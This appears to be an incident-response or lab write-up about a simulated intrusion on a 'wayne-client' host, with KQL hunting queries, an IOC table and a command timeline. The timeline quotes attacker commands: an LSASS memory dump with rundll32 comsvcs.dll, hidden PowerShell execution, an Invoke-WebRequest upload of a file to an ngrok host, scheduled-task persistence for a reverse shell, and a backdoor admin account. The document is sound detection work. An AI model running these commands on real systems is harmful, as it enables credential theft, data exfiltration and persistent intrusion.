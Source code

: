 ```kql
// Scheduled task creation by attacker
DeviceEvents
| where FileName has "schtasks.exe"
| where InitiatingProcessAccountName contains "barbara"
| project TimeGenerated, DeviceName, InitiatingProcessCommandLine, FileName, AccountName
```

```kql
// Local admin user creation using net.exe
DeviceProcessEvents
| where FileName =~ "net.exe"
| where ProcessCommandLine has "user Joker" or "Administrators Joker"
```

```kql
// NGROK C2 traffic via PowerShell
DeviceNetworkEvents
| where InitiatingProcessFileName =~ "powershell.exe"
| where RemoteUrl has "ngrok" or RemoteIP in ("3.134.125.175", "99.157.17.206")
```

---

## 📄 IOC Table (CSV Consolidation)

| Indicator Type | Value                                       | Source              |
|----------------|---------------------------------------------|---------------------|
| IP Address     | 3.134.125.175                               | reverse shell (C2)  |
| File Name      | revshell.ps1                                | malicious payload   |
| SHA256 Hash    | 98d7c0e974e4e9f771ef346633c08ac0bf9a9d95a4.. | revshell.ps1        |
| File Name      | Wayne_Enterprises_Resume.docm               | phishing document   |
| SHA256 Hash    | cbc440c111184acc4848b1dade91b4ef118b94895.. | Resume.docm         |
| Process        | powershell.exe                              | post-exploitation   |
| Process        | rundll32.exe                                | LSASS dump          |
| URL            | `https://<ngrok>.ngrok-free.app/revshell.ps1` | C2 download path    |

---

## 📅 Sentinel Workbook Timeline Table

| TimeGenerated (UTC)     | DeviceName              | InitiatingProcessCommandLine                                                                                  |
|-------------------------|-------------------------|---------------------------------------------------------------------------------------------------------------|
| 6/27/2025, 6:26:43 PM   | wayne-client.wayne.corp | `WINWORD.EXE /n "C:\Users\Barbara.HR\Desktop\Wayne_Enterprises_Resume.docm" /o ""`                         |
| 6/27/2025, 6:28:31 PM   | wayne-client.wayne.corp | `powershell.exe -ep Bypass -w hidden -Command IEX(...)`                                                      |
| 6/28/2025, 9:46:43 AM   | wayne-client.wayne.corp | `rundll32.exe comsvcs.dll MiniDump 772 C:\Windows\Temp\lsass.dmp full`                                     |
| 6/28/2025, 11:06:10 AM  | wayne-client.wayne.corp | `powershell.exe cd "C:\Users\Lucious.R&D\Documents"`                                                     |
| 6/28/2025, 11:28:37 AM  | wayne-client.wayne.corp | `powershell.exe Invoke-WebRequest -Uri http://<ngrok>/upload -InFile batmobile.bmp`                          |
| 6/28/2025, 11:32:21 AM  | wayne-client.wayne.corp | `schtasks.exe /create /tn "Updater" /tr "powershell.exe -w hidden -File C:\Users\Public\revshell.ps1"`     |
| 6/28/2025, 11:33:54 AM  | wayne-client.wayne.corp | `net user Joker Pass123 /add && net localgroup administrators Joker /add`                                    |
